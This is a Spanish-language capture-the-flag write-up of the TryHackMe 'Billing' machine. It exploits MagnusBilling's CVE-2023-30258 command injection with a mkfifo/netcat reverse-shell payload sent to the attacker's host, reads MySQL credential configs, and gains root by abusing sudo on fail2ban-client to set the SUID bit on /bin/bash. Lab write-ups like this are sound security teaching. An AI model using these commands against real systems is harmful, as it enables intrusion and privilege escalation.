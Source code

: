 ```yaml
---
title: Billing
description: Write Up máquina Billing de Try Hack Me
published: true
date: 2025-05-06T16:33:37.224Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:23:46.118Z
---
```


# Billing
Bienvenido, va a encontrar el write up de la máquina Billing de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un comando básico de detección de puertos mediante nmap. Por lo tanto el comando será
```nmap
nmap -sT -Pn -sV {IP} 
```
![Uso de Nmap](/imagenes/billing-1.png)

Podemos observar como tenemos 3 puertos abiertos.
- Puerto 22: Para conexiones SSH
- Puerto 80: Para conexiones http
- Puerto 3306: Para base de datos SQL

Vamos a hacer un dirb para analizar todos las entradas disponibles en el website.
```
dirb http://{IP}
```
![Uso de Dirb](/imagenes/billing-2.png)

Observamos que tenemos robots.txt disponibles, por lo que vamos a entrar para observar que hay.

![Información de robots](/imagenes/billing-4.png)

No hay mucha información, por lo que vamos a ir al index normal.

![Login](/imagenes/billing-3.png)

Como podemos observar, parece un login clásico, sin embargo si nos fijamos en la ventana podemos observar el nombre del software que es MagnusBilling.

Si nos vamos al website oficial podemos observar información de que usa un Framework de Javascript llamado ExtJS 6.2.0.981, esta versión es vulnerable según el CVE-2023-30258.

## Explotación
Ahora que tenemos el plan, vamos a ejecutar el script para poder hacer la shell reversa. 

Lo primero que vamos a hacer es un puerto de escucha con:
```
nc -lnvp 443
```

Luego vamos a escribir lo siguiente, lo cúal consiste en una ejecución de comando de forma remota mediante el path.

'http://{IP máquina}/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP atacante}10.9.3.144 443 >/tmp/f;#'

![Puerto de escucha](/imagenes/billing-5.png)
Tras esto vamos a comprobar que usuario somos, con un id básico.

![ID](/imagenes/billing-6.png)

Como podemos observar somos el usuario asterisk


Ahora lo que haremos será dirigirnos a /var/www/html/mbilling, donde vamos a analizar el contenido del index.php, para ver que configuración usa para el login.

![Info index.html](/imagenes/billing-7.png)

Como podemos observar, el archivo que nos interesa es uno ubicado en /protected/config y se llama main.php, ya que parece que está toda la información.


Mirando el archivo podemos observar que toma la configuración de login de otro archivo de configuración llamado res_config_mysql.conf, ubicado en /etc/asterisk/res_config_mysql.conf.

![Info .php](/imagenes/billing-8.png)

Vamos a entrar en la base de datos para ver si podemos acceder al website.

Antes vamos a securizar la shell mediante:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemos <kbd>Ctrl</kbd> + <kbd>Z </kbd>. y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

![Información login](/imagenes/billing-10.png)

Tras esto vamos a acceder a la base de datos como íbamos a hacer en un principio.

Podemos observar como tenemos una base de datos llamada mbilling, es la que usaremos y dentro tenemos muchas tablas, pero la que nos interesa se llama pkg_user. Por lo que vamos a hacer
```mysql
SELECT * FROM pkg_user;
```

Lamentablemente la información es demasiado densa para entender.

![Info BBDD](/imagenes/billing-11.png)

Deberíamos descifrar la contraseña para poder acceder al usuario, sin embargo para completar la máquina no es necesario.

## Finalización
Ahora vamos a comprobar si tenemos la flag en el Home del usuario, sin embargo podemos observar que no hay, por lo que vamos a comprobar usuarios existentes y buscaremos la flag ahí.


![Flag user](/imagenes/billing-12.png)


Ahora vamos a comprobar que comandos podemos hacer mediante el uso de sudo -l

![Sudo -l](/imagenes/billing-13.png)


Como podemos observar, somos capaces de ejecutar el comando fail2ban-client, como root sin problema. 
```
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
Este comando hace que cuando fail2ban detecte una IP que no debería entrar, su sentencia es que ejecute el comando /bin/bash, como root.

También es necesario autobanear nuestra propia IP, para ello ponemos
```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip {IP}
```

![Baneo](/imagenes/billing-14.png)

Tras esto, podemos crear una nueva shell con
```bash
bash -p
```

![Sudo -l](/imagenes/billing-15.png)

Tras esto podemos finalizar con la máquina ya que nos detecta que nuestra IP está vetada y por lo tanto nos inicia sesión como root, nos dirigimos al directorio de root y podemos usar el website.
![Fin](/imagenes/billing-16.png)


